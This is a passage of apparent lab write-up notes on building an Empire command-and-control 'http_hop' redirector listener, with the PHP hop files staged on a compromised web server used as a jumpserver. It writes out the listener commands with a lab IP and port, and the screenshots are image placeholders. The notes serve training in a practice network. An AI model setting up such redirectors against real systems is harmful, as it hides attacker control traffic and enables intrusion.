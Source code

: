 ![[Pasted image 20231231120847.png]]
When created, this will create a set of `.php` files which must be uploaded to the jumpserver (our compromised webserver) and served by a HTTP server. Under normal circumstances this would be a trivial task as the compromised server already has a webserver running; however, out of courtesy to anyone else attempting the network, we will not be using the installed webserver.

```
uselistner http_hop
```
![[Pasted image 20231231104451.png]]

```
set RedirectListener CLIHTTP
set HOST 10.200.101.200
set Port 47000
options
execute
```
![[Pasted image 20231231104900.png]]

![[Pasted image 20231231105008.png]]

After executing this files will be created  
![[Pasted image 20231231105302.png]]

Http listener
![[Pasted image 20231231105714.png]]

